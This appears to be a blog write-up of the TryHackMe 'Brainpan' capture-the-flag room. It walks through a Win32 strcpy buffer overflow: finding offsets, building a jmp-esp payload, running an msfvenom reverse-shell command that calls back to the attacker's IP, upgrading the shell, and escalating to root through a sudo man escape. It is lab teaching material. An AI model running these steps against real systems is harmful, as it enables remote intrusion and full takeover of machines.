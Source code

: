 ```yaml
---
title: TryHackMe - Win32 Remote Buffer Overflow Challenge - Brainpan
author: vrls
date: 2020-07-10
#categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [tryhackme, ctf, win32, buffer, overflow, brainpan]
image: /assets/img/posts/2020/07/036945e91901ed7a9140b3a4bce1d7a4.png
permalink: /posts/2020/07/tryhackme-win32-remote-buffer-overflow-brainpan/

---
```


<!--  ![image](/assets/img/posts/2020/07/036945e91901ed7a9140b3a4bce1d7a4.png) -->

## Introduction

This *easy* challenge requires analyzing a PE32 executable file by reversing it and find a buffer overflow vulnerability in order to achieve RCE.
We are given an IP address, instead of an expected binary executable file. 


## Enumeration

Starting with a quick Nmap scan we discover two open ports: **9999** & **10000**  (web server). 


![image](/assets/img/posts/2020/07/d5cdcdfb48bd60cad7b7b8a04f8012f6.png)

By accessing *http://10.10.145.154:10000/* through web browser we are presented with a fancy image suggesting to practice safe programming. 

![image](/assets/img/posts/2020/07/c0e111c46203b772c02c620b4c0562bb.png)

While running sub-directory scanner it found the directory **/bin/** with *Directory Listing* enabled and containing an **.exe** file.

![image](/assets/img/posts/2020/07/a203e53f184013329cc3d9bcb619f747.png)

Also, connecting via Netcat to the other port **9999** displays the following terminal which is probably served by the file we just found on **/bin/** directory of web server. 

![image](/assets/img/posts/2020/07/23bd33112de752f1e307b3da66910cae.png)

Now the current plan to hack the machine is:

* Reverse engineer the executable
* Find a buffer overflow vulnerability
* Exploit the vulnerability
* Gain initial foothold on remote machine
* Try to escalate privilages


## Reversing

In summary, this simple application starts by initializing a socket Winsock to be able to establish TCP/IP connections via 9999 port and then receives the user input.

This input is stored in a buffer with an approximate capacity of *0x208* bytes (that is roughly 520 bytes) and then compares with string **shitstorm**, which is the correct password to be "granted access". 

![image](/assets/img/posts/2020/07/009c2da76ef4292c011381fd2fa10d8d.png)

Note that the function being used *strcpy()* does not specify the size of destination array thus it does not prevent overwriting other data outside the current buffer limit (buffer overflow).

To fix this issue, the current string copy function should be replaced with *str**n**cpy()* to specify the limit of characters to be read into the buffer. This function has a better security approach since it does ensure only first **n** bytes are copied, preventing overflow.

## Exploit

As usual, we start by sending a lot of bytes to crash the program and confirm the overflow. Sending a total of *1024 A's* will terminate the process and display the following exception. Note this was performed in a Windows virtual environment as we don't have control over the target machine, yet. 

![image](/assets/img/posts/2020/07/b03c5a9e4282cd9c3f2bd9328de697b5.png)

At this point, we can run *Immunity Debugger* to analyze program behavior during runtime by attaching to a running proces. It will be essential to be able to understand and write a basic exploit.

Instead of sending a sequence of *A's* we can generate a string pattern that contains unique substring sequences. This is particularly useful to locate specific elements and see how the input adjusts in stack.

The scripts **pattern_create.rb** and **pattern_offset.rb** are available within *Metasploit Framework* tools. 

![image](/assets/img/posts/2020/07/9c18a6232550428806aae2cba2c31e15.png)

If we provide this input to the running program while attached to *Immunity Debugger* it is possible to observe the actual state of registers and stack. 

![image](/assets/img/posts/2020/07/a2268eeb5e5989dd08fbfb23fdee954a.png)

The instruction pointer value was overwritten with **4Ar5**. By replacing the substring **4Ar5** with a valid instruction address, we are able to control EIP and decide which instruction will be executed next when the current procedure returns because we are overwriting the return address.

In a normal execution, the EIP should go back to the return address that was previously stored at the bottom of the current stack frame in order to let the program continue its normal execution.

We can also observe that stack pointer is pointing to overwritten content of the previous stack frame, beginning at **Ar6A** (eip+4). Its important to note that we can use this space to store shellcode and then set the EIP to that location.

Now the offset of both EIP and ESP may be calculated using **pattern_offset.rb** and providing both words. 

![image](/assets/img/posts/2020/07/d0f88386c85204de9145d27cc7670d01.png)


With the correct offset we can tweak our string to hold different values at different places. It should hold *524 A's* to fill the buffer plus the next 4 bytes will overwrite return address and the other next 4 bytes will be what stack pointer will be pointing to.

* **payload = 'A' * 524 + 'B' * 4**

It will cause the process to terminate due to *0x42424242* not being an address pointing to a valid instruction. 

![image](/assets/img/posts/2020/07/3832604f2e02d328436fe508f6a236e6.png)

At this point we are already able to build a solid payload. The structure should be similar to the following scheme: 

![image](/assets/img/posts/2020/07/3be1ed74de16b360e1a234a7b7705d1f.png)

Payload should contain *524 A's* followed by 4 bytes of a **jmp esp** instruction address, then a **NOP sled** and the shellcode.

The NOP sled will basically serve as a frame for where the ESP could be pointing to, to ensure that after the **jmp esp** instruction is executed, it will fall anywhere within the sled, and slide directly into the shellcode.

We can use *objdump* to find a jmp esp instruction address and use it to overwrite the return address. 

![image](/assets/img/posts/2020/07/8ffb153b1195da327ccf28dc91f955f0.png)


In this case, the payload should look like this:

* **payload = 'A' * 524 + '\xf3\x12\x17\x31' + '\x90' * 16 + '\<shellcode>'**

In other words:

* **payload = \<fill buf. w/ 524 bytes> + \<addr. of jmp esp instr.> + \<nop sled of 4 words> + \<shellcode>**

We should generate shellcode using msfvenom by executing the command:

```bash
$ msfvenom -p windows/shell/reverse_tcp RHOST=10.9.53.85 RPORT=1337 -a x86 -f python -b'\x00\x0a\x0d'.
```

The generated shellcode will connect-back to **10.9.53.85:1337** therefore we must setup a listener with **msfconsole**. Also it will be compatible with x86 architecture and outputted in Python syntax.

The shellcode must not contain bad chars: **\x00**, **\x0a** and **\x0d**. These bytes usually interfer when dealing with string manipulation functions (e.g. the \x00 denotes null-terminator for strings; if we include it then the program will consider it reached the end of string therefore leading to incomplete and damaged payload).

The final exploit looks like this:

![image](/assets/img/posts/2020/07/6e5b8a2775e2711a961680bf01e684af.png)

Setting up the listener on port **1337** to receive the incoming shell from target machine. *Bonus: HONK! :b*



![image](/assets/img/posts/2020/07/8e81af06eb8504f0a4eb387c75eb0304.png)


Finally! Executing the exploit pops a basic cmd shell. 

![image](/assets/img/posts/2020/07/ed484ee0de26059d2f10bec239a8cccf.png)



## Post-Exploitation

It is a surprise that the executable is being run through Wine enviornment, on a Linux machine. This shell is limited within Wine so we must *escape* and get a decent Bash. The most simple way is to navigate into **/bin/** and then execute **.\sh**.

Also, its usually a good idea to get one more different reverse shell. In case of failure, we have a backup and could easily start over without having to run the exploit again. The exploit could kill the service and we may lose further access to the machine.

This Python one-liner will send another shell back to our listening Netcat, at this time on port **1338**. 

![image](/assets/img/posts/2020/07/b981d5b8f841073a982272529b77a15b.png)

From now on it is quite trivial. First the dumb shell should be upgraded to an interactive one using:

```bash
python -c 'import pty; pty.spawn("/bin/sh");'
```

## Privilege Escalation

Then, having a look at current user puck **sudo privileges** there is one command that immediately stands out: **/home/anansi/bin/anansi_util**.

One of the available arguments is manual *\[command]*. It is obvious how to get root privileges by exploiting man, according to **GTFOBins**:

![image](/assets/img/posts/2020/07/f0fe0c615530e6f7a854573e7357a42e.png)

Running **sudo /home/anansi/bin/anansi_util manual man** followed by **!/bin/sh** spawns a **root shell**, thus bypassing local security restrictions! :) 

![image](/assets/img/posts/2020/07/c2932167fa3f0ef40f94e05abf8d83d7.png)

References:

* https://tryhackme.com/room/brainpan
* https://m0chan.github.io/2019/08/20/Simple-Win32-Buffer-Overflow-EIP-Overwrite.html
* https://netsec.ws/?p=337
* https://gtfobins.github.io/gtfobins/man/#shell
